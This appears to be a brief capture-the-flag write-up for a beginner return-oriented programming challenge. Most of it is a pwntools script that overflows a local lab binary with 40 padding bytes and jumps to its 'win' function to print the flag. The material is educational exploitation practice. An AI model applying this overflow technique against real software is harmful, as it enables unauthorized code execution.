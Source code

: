 # Return Oriented Programming 1.0

Running the provided executable file, we are provided with the offset (40) and the target function name. We can use native tool from `pwn` to get the flag.

Code:

```python
from pwn import *

elf = context.binary = ELF("/challenge/babyrop_level1.0")

io = process()

print("===== STARTING EXPLOIT =====")

offset = 40

payload = flat(
    b'A' * offset,
    elf.sym['win']
)

io.sendline(payload)

io.recvuntil(b'flag:\n')
print(f'Flag: {io.recvline(False)}')
```

Flag:

![[Return Oriented Programming/images/Level1.0.png]]